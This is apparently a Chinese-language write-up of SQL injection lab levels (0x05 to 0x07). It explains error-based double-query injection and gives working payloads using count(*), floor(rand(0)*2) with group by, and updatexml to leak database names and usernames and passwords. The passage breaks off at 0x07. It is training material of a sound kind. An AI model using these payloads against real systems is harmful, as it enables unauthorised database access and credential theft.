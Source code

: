 只有在?id=1'时报错。在其余两种情况中均为报错，但页面没有回显消息。说明原语句中大概为id='$id'的形式。

跳过联合查询查找注入几位的操作。根据题目提示，尝试双查询注入

```
?id=1' union select 1,count(*),concat_ws('-', (select database(), floor(rand()*2)) as a from information_schema.tables group by a)
select concat(count(*), "~",database(), floor(rand(0)*2))as a from information_schema.tables group by a;
```

爆出数据库。之后操作与0x01类似。

注意暴用户名和密码时，只能逐条列举。

### 知识补充

#### 双查询注入

```
姿势1：union select count(*), concat(暴库语句, floor(rand(0)*2))as a from information_schema.tables group by a;
姿势2：and updatexml(1,concat(0x7e,database(),0x7e),1)#
```

注意只能查询一行 ，因此暴库语句不能使用group_concat()，可以修改limit的范围进行用户信息遍历

函数解析

```
rand(0)：可以生成固定序列的0-1之间的树
floor(rand(0)*2)：可以生成固定的0和1序列
count(*)：聚合函数
```

原理

```
select count(*), concat(暴库语句, floor(rand(0)*2))as a 作为键值，先把整个语句插入临时表
group by在执行时，在临时表中逐条执行临时表键值语句，处理数据
在处理中，发现临时表中存在相同键值，count(*)在统计时报错
双查询注入利用了sql文件中存在对mysql_error()进行调用的语句
```

## 0x06

注入点为

```
?id=1"
```

其余与0x05类似

## 0x07

本地注入点通过阅读源码得知为
